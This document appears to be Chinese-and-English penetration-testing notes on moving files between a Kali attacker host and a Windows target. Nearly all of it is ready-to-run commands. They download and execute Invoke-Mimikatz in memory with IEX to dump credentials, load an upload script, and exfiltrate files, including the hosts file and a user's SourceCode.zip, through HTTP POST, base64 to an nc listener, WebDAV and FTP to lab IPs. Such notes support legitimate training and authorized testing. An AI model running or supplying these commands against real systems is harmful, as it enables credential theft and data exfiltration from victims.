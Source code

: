 ```powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')

#管理到IEX，跟上面的command是一样的
(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') | IEX
```
***

## File Upload With Powershell
 上传函数使用 Invoke-WebRequest 或 Invoke-RestMethod 进行构建
 python 可以下载http.server的模块 ---> uploadserver
 On Kali: 
```bash
 pip install uploadserver
 python3 -m uploadserver
```
On Windows ------> [PSUploads.ps1](https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1)
```powershell
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts
```
### Upload with Base64
将目标文件转换为base64后就可以直接通过iwr进行POST传输。再使用nc接受base64编码。
```powershell
$b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64
```
```bash
nc -lvnp 8000
echo <base64> | base64 -d -w 0 > hosts
```
## SMB upload Over wsgiDAV
Set up on Kali:
```bash
sudo pip3 install wsgidav cheroot
sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous
```
On Windows:
```powershell
dir \\<Kali_IP>\DavWWWRoot #DavWWWRoot是Windows Shell 识别的特殊关键字
copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\DavWWWRoot\
copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\sharefolder\ #有目标文件夹，就不用DavWWWRoot
```
# FTP Server On Kali
Kali set up:
```bash
sudo pip3 install pyftpdlib
sudo python3 -m pyftpdlib --port 21 #默认端口是2121 --write 开启上传功能
```
on windows:
```powershell
# Same as DownloadFile method in http transfer.
(New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'C:\Users\Public\ftp-file.txt')

# Upload.Use UploadFile method.
```